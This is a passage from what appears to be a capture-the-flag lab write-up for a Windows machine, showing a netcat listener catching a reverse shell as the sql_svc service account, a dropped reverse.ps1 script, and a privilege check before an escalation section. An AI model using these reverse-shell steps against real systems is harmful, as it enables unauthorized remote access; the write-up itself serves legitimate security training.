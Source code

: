 <br />

```bash
❯ sudo rlwrap nc -nlvp 443
[sudo] contraseña para theredp4nther: 
listening on [any] 443 ...
connect to [10.10.14.12] from (UNKNOWN) [10.10.11.51] 49482
whoami
sequel\sql_svc
PS C:\Windows\system32> 
```

<br />

# Privilege Escalation: sql_svc -> ryan

<br />

There is nothing more than our `reverse.ps1` in the `sql_svc` home directory:

<br />

```bash
PS C:\Users\sql_svc\Desktop> dir


    Directory: C:\Users\sql_svc\Desktop


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
-a----        6/14/2025  10:10 AM            623 reverse.ps1   
```

<br />

And it doesn't have any useful privileges:

<br />

```bash
PS C:\Users\sql_svc\Desktop> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State   
============================= ============================== ========
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled 
SeCreateGlobalPrivilege       Create global objects          Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set Disabled
```

<br />
